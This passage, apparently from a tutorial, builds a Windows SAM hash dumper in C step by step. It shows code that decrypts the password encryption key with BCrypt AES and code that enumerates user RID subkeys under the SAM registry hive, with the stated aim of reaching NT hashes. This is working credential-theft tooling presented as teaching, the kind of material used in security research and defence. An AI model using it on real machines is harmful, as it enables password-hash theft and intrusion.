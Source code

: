 ```c
BCRYPT_ALG_HANDLE hAlg = NULL;
BCRYPT_KEY_HANDLE hKey = NULL;

unsigned long status;
unsigned char output[64];
ULONG outputlen = 0;

status = BCryptOpenAlgorithmProvider(&hAlg, BCRYPT_AES_ALGORITHM, NULL, 0);
status = BCryptGenerateSymmetricKey(hAlg, &hKey, NULL, 0, syskey, 16, 0);
status = BCryptDecrypt(hKey, data, encLen, 0, iv, 16, output, 64, &outputlen, BCRYPT_BLOCK_PADDING);
status = BCryptCloseAlgorithmProvider(hAlg, 0);

for (ULONG i = 0; i < outputlen; i++) 
	dpek[i] = output[i];

return;
```

Now we have our 16 byte fully decrypted password encryption key in the `dpek` array, and the next step is to get the user data and NT hashes.

***
**Part III: Querying the SAM Hive for User Information**

The SAM user database is stored in the `HKLM:\SAM\SAM\Domains\Account\Users` registry key. Each user account is stored as a subkey, indexed by the hex value of the user's RID (i.e. Administrator, RID 500, is stored under `000001F4`).

We can start by calling `RegQueryInfoKeyW`, using the 5th parameter `lpcSubKeys`, to get the number of subkeys. There is an additional subkey, so we'll want to subtract 1 from `numUsers` before using it. 

```c
int EnumUsers(){
	HKEY key;
	LSTATUS status;
	int numUsers;

	status = RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SAM\\SAM\\Domains\\Account\\Users", 0, KEY_READ, &key);
	status = RegQueryInfoKeyW(key, NULL, NULL, NULL, &numUsers, NULL, NULL, NULL, NULL, NULL, NULL, NULL);
	RegCloseKey(key);

	return numUsers;
}
```

Now we'll start a new function, `GetUserData`, which will take an `index` value that represents which subkey (i.e. user) we're querying, and a `user` struct that we've defined to hold various things like the user RID, username, NT hash, and so on. 
First, we want to use `RegEnumKeyExW` to get the name of the subkey at the index. This will be the hex value of the RID that I mentioned above, so we'll store that in the `user` struct, and then concatenate it to the full registry path so we can query values from the user subkey itself.
